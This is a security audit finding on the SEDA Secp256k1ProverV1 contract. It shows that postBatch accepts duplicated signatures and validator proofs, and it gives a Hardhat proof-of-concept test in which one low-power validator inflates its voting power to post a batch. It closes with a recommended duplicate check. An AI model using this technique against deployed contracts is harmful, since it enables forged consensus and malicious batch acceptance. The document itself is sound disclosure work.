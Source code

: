 High Ash Jay

High

# Single validator can reach consensus by posting a batch with duplicated signature

# Description

In the EVM `Secp256k1ProverV1` contract, the purpose of the `postBatch` function is "verification to validate batch signatures and confirm that they meet the required consensus threshold".

The issue is a missing duplication check. As a result, one single validator with only one signature with a `votingPower > 0` can reach a consensus threshold and post a batch.

----

See the implementation of the function. First we check the `height`, then the length equality of arrays.
After that, in the loop we call two pure function (state does not change, which means there is nothing to prevent iterating over the same validator) and increase the voting power. However as mentioned before, there is no code to prevent using duplicated elements in arrays.

```solidity
signatures = ["Sig1", "Sig1", "Sig1", "Sig1"]
validatorProofs = [Val1, Val1, Val1, Val1]
```

```solidity
function postBatch(
        SedaDataTypes.Batch calldata newBatch,
        bytes[] calldata signatures,
        SedaDataTypes.ValidatorProof[] calldata validatorProofs
    ) external override(ProverBase) whenNotPaused {
        Secp256k1ProverStorage storage s = _storageV1();
        // Prevents replay attacks via strictly ordered batches
        if (newBatch.batchHeight <= s.lastBatchHeight) {
            revert InvalidBatchHeight();
        }
        // Each signature needs a validator Merkle Proof
        if (signatures.length != validatorProofs.length) {
            revert MismatchedSignaturesAndProofs();
        }

        bytes32 batchId = SedaDataTypes.deriveBatchId(newBatch);

        // Accumulate voting power from valid validators to ensure sufficient consensus
        // Each validator must prove membership and provide a valid signature
        uint64 votingPower = 0;
        for (uint256 i = 0; i < validatorProofs.length; i++) {
            // Verify validator is part of the current validator set using Merkle proof
            if (!_verifyValidatorProof(validatorProofs[i], s.lastValidatorsRoot)) { // pure 
                revert InvalidValidatorProof();
            }
            // Verify signature is valid and signed by the validator
            if (!_verifySignature(batchId, signatures[i], validatorProofs[i].signer)) { // pure
                revert InvalidSignature();
            }
            votingPower += validatorProofs[i].votingPower;
        }

        // Check that voting power meets or exceeds the consensus threshold (2/3)
        if (votingPower < CONSENSUS_PERCENTAGE) {
            revert ConsensusNotReached();
        }

        // After consensus is reached, commit the new batch and update validator set
        // This establishes the new state for future batch validations
        s.lastBatchHeight = newBatch.batchHeight;
        s.lastValidatorsRoot = newBatch.validatorsRoot;
        s.batches[newBatch.batchHeight] = BatchData({resultsRoot: newBatch.resultsRoot, sender: msg.sender});
        emit BatchPosted(newBatch.batchHeight, batchId, msg.sender);
    }
```
[Secp256k1ProverV1.sol#L90C1-L134C1](https://github.com/sherlock-audit/2024-12-seda-protocol/blob/main/seda-evm-contracts/contracts/provers/Secp256k1ProverV1.sol#L90C1-L134C1)

# PoC
Paste the PoC in `seda-evm-contracts/test/prover/Secp256k1ProverV1.test.ts` in the block `describe('batch management', () => {` line 35

```typescript
    // ------------------------------------------------------------------------------------------
    it('BUG: allows reusing the same validator multiple times to inflate voting power', async () => {
      const { prover, wallets, data } = await loadFixture(deployProverFixture);
      const { newBatchId, newBatch } = generateNewBatchWithId(data.initialBatch);


      // wallet[0] has 75% vtoing pover
      // the rest of 25% is distributed among the rest 3
      // so we use wallet[1] which has around 8%
      const singleSig = await wallets[1].signingKey.sign(newBatchId).serialized;

      // PoC 
      // Duplicate signature 10 times
      const repeatedSignatures = [
        singleSig, 
        singleSig, 
        singleSig, 
        singleSig, 
        singleSig, 
        singleSig, 
        singleSig,
        singleSig,
        singleSig,
        singleSig];

      // Duplicate the validatorProof[1] 10 times as well
      // (proof for wallets[1])
      const repeatedProofs = [
        data.validatorProofs[1],
        data.validatorProofs[1],
        data.validatorProofs[1],
        data.validatorProofs[1],
        data.validatorProofs[1],
        data.validatorProofs[1],
        data.validatorProofs[1],
        data.validatorProofs[1],
        data.validatorProofs[1],
        data.validatorProofs[1],
      ];


      // This will fail not reaching the consensus
      // Comment out PoC and run code bellow to check
      // ------------------
      // const repeatedSignatures = [singleSig];

      // const repeatedProofs = [
      //   data.validatorProofs[1]
      //  ];
      // ------------------


      // This should revert in a well-designed contract, because it’s the same validator
      // repeated 10 times. But in the current code it *will* pass (inflates the voting power).
      await expect(prover.postBatch(newBatch, repeatedSignatures, repeatedProofs))
        .to.emit(prover, 'BatchPosted') // This means it actually succeeds

      
      // Prove the contract accepted the inflated voting power
      const lastBatchHeight = await prover.getLastBatchHeight();
      expect(lastBatchHeight).to.equal(newBatch.batchHeight);
    });
    // ------------------------------------------------------------------------------------------
```

# Impact
One validator with low voting power can bypassing consensus and propose malicious batch: High

# Recommendation
Check for duplicates. Example implementation:

```solidity
address signer = validatorProofs[i].signer;
// revert if we’ve already seen this validator
if (seenValidators[signer]) {
    revert("Validator duplicated");
}
seenValidators[signer] = true;
```